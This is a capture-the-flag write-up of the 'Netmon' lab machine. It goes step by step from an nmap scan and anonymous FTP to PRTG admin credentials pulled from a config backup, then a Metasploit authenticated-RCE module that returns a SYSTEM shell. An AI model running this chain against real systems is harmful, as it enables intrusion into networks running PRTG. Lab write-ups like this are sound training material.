


Target: 10.10.10.152

## Enumeration:

nmap
```
$ sudo nmap -sC -sV 10.10.10.152

Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-15 01:36 PDT
Nmap scan report for 10.10.10.152
Host is up (0.095s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE      VERSION
21/tcp  open  ftp          Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-03-19  12:18AM                 1024 .rnd
| 02-25-19  10:15PM       <DIR>          inetpub
| 07-16-16  09:18AM       <DIR>          PerfLogs
| 02-25-19  10:56PM       <DIR>          Program Files
| 02-03-19  12:28AM       <DIR>          Program Files (x86)
| 02-03-19  08:08AM       <DIR>          Users
|_02-25-19  11:49PM       <DIR>          Windows
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp  open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
|_http-server-header: PRTG/18.1.37.13946
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
|_http-trane-info: Problem with XML parsing of /evox/about
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -1s, deviation: 0s, median: -1s
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-05-15T08:36:54
|_  start_date: 2021-05-15T08:35:04
```

checking 10.10.10.152



### Findings:Looking for attack vectors

Ftp can be accessed through Anonymous FTP login.
Traverse and find website config files.


## Foothold:

[Location of Paessler config files](https://kb.paessler.com/en/topic/463-how-and-where-does-prtg-store-its-data)

ftp login
```
$ ftp 10.10.10.152

ftp> cd "Programdata"\\Paessler\\"PRTG Network Monitor"

ftp> get "PRTG Configuration.old.bak"

local: PRTG Configuration.old.bak remote: PRTG Configuration.old.bak
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
1153755 bytes received in 2.80 secs (402.3314 kB/s)
```

looking for creds
```
$ less "PRTG Configuration.old.bak"

<snip>
<dbpassword>
    <!-- User: prtgadmin -->
     PrTg@dmin2018
</dbpassword>
<snip>
```

Loot:

`prtgadmin:PrTg@dmin2018`

trying password on a different year

prtgadmin:PrTg@dmin2019

trying credentials



Metasploit
```
$ msfconsole
```

searching for prtg exploits
```
search prtg

Matching Modules
================

   #  Name                                         Disclosure Date  Rank       Check  Description
   -  ----                                         ---------------  ----       -----  -----------
   0  exploit/windows/http/prtg_authenticated_rce  2018-06-25       excellent  Yes    PRTG Network Monitor Authenticated RCE


use exploit/windows/http/prtg_authenticated_rce
set RHOSTS 10.10.10.152
set LHOST tun0
set ADMIN_USERNAME prtgadmin
set ADMIN_PASSWORD PrTg@dmin2019
run
```

```
meterpreter > getuid

Server username: NT AUTHORITY\SYSTEM
```

```
meterpreter > cd C:\\Users\\Public

meterpreter > cat user.txt

<redacted>

meterpreter > cd C:\\Users\\Administrator\\Desktop

meterpreter > cat root.txt

<redacted>
```
